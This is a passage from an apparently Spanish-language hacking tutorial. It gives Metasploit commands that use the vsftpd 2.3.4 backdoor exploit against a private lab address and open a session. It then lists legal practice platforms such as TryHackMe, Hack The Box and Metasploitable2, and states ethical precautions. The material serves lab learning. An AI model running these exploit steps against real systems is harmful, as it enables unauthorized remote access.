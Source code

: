 ✅ 9️⃣ Usar exploit:

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

✅ 10️ Configurar:

```
set RHOSTS 192.168.1.10
```

✅ 11️ Lanzar:

```
run
```

✅ 12️ Obtener sesión:

```
sessions
```

✅ 🎯 ¡Listo!

---

### 📌 **10️ ¿Dónde practicar legalmente?**

✅ **TryHackMe:**

👉 [https://tryhackme.com](https://tryhackme.com)

✅ **Hack The Box:**

👉 [https://www.hackthebox.com](https://www.hackthebox.com)

✅ **Metasploitable2 (máquina vulnerable para laboratorio):**

👉 Fácil de importar en VirtualBox o VMware

✅ **VulnHub:**

👉 [https://www.vulnhub.com](https://www.vulnhub.com)

---

### ⚠️ **11️ Precauciones Éticas**

✅ Solo importar, analizar y explotar datos:

✔ En redes de prueba.

✔ Con autorización.

✔ Para fines educativos o profesionales.

❌ Nunca atacar sistemas sin permiso.

---

### 📌 **✅ 12️ Enlaces útiles**
